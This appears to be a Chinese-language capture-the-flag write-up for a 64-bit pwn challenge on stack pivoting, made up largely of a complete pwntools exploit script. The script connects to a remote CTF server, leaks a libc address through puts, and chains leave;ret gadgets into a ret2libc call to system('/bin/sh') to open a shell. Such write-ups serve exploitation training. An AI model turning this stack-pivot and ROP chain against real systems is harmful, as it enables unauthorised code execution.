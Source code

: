 # W2 stack migration

## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  
![legend](../assets/legend.jpg)

由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
